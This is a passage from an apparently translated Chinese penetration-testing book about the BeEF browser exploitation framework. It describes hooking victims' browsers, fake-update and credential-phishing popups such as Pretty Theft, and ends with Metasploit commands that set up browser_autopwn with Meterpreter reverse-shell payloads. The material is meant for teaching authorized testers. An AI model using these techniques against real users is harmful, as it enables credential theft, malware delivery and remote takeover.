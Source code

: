 +   **灰色**：表示命令模块尚未针对目标进行验证

+   **红色**：表示命令模块不针对目标有效。它可以使用，但其成功不被保证，并且使用可能被目标检测到

要注意这些指标，因为客户端环境的变化可能会使一些命令无效，或者可能导致其他意外的结果。

要开始攻击或钩住受害者，我们需要让用户点击 hook URL，其形式为 `<IP 地址>:<端口>/hook.js`。这可以通过各种方式实现，包括：

+   原始的 XSS 漏洞

+   中间人攻击（尤其是使用 **BeEF Shank**，**ARP** 欺骗工具，专门针对内部网络上的内部网站）

+   社会工程攻击，包括 BeEF 网页克隆和大规模邮件发送，使用 iFrame 冒充的自定义 hook 点，或者 QR 代码生成器

一旦浏览器被钩住，它被称为僵尸。从命令界面左侧的 **Hooked Browsers** 面板中选择僵尸的 IP 地址，然后参考可用的命令。

在下面的屏幕截图中显示的示例中，钩住的浏览器有几种不同的攻击和管理选项可用。其中最容易使用的攻击选项之一是社会工程学 Clippy 攻击。

当从 **Commands** 下的 **Module Tree** 中选择 **Clippy** 时，右侧会启动一个特定的 **Clippy** 面板，如下面的屏幕截图所示。它允许您调整图像、传递的文本以及如果受害者点击提供的链接将在本地启动的可执行文件。默认情况下，自定义文本通知受害者他们的浏览器已过时，提供更新，下载一个可执行文件（非恶意），然后感谢用户进行升级。所有这些选项都可以由测试人员更改。

![BeEF 浏览器的演示](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-adv-pentest/img/3121OS_11_20.jpg)

当 Clippy 被执行时，受害者将在他们的浏览器上看到如下截图所示的消息：

![BeEF 浏览器的漫游](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-adv-pentest/img/3121OS_11_21.jpg)

这可以是一个非常有效的社会工程攻击。在与客户进行测试时，我们成功率（客户下载了一个非恶意的指示文件）约为 70%。

提示模块的工作方式类似。它不是向受害者的浏览器发送简单的警报，而是发送一个通知请求，提示受害者输入数据。在许多情况下，如果受害者被提示输入未定义的数据，他们会自动重新输入他们的密码。提示可以要求特定的数据，或者可以用来引导受害者到一个包含恶意软件的系统补丁的网站上下载。下面的截图显示了获取用户密码的最简单和最有效的攻击之一。

![BeEF 浏览器的漫游](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-adv-pentest/img/3121OS_11_22.jpg)

其中一个更有趣的攻击是 Pretty Theft，它要求用户提供他们在流行网站上的用户名和密码。例如，测试人员可以配置 Facebook 的 Pretty Theft 选项，如下面的截图所示：

![BeEF 浏览器的漫游](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-adv-pentest/img/3121OS_11_23.jpg)

当攻击执行时，受害者会看到一个弹出窗口，看起来是合法的，如下面的截图所示：

![BeEF 浏览器的漫游](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-adv-pentest/img/3121OS_11_24.jpg)

在 BeEF 中，测试人员可以从**命令结果**列的**数据**字段中查看攻击的历史记录，并得出用户名和密码，如下面的截图所示：

![BeEF 浏览器的漫游](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-adv-pentest/img/3121OS_11_25.jpg)

## 将 BeEF 和 Metasploit 攻击集成

BeEF 和 Metasploit 框架都是使用 Ruby 开发的，可以一起操作来利用目标。因为它使用客户端和服务器端的指纹识别来描述目标，`browser_autopwn`是最成功的攻击之一。

一旦目标被钩住，启动 Metasploit 控制台，并使用以下命令配置攻击：

```
msf > use auxiliary/server/browser_autopwn
msf auxiliary(browser_autopwn) > set LHOST 192.168.43.130
msf auxiliary(browser_autopwn) > set PAYLOAD_WIN32
  windows/meterpreter/reverse_tcp
msf auxiliary(browser_autopwn) > set PAYLOAD_JAVA
  java/meterpreter/reverse_tcp
msf auxiliary(browser_autopwn) > exploit 

```
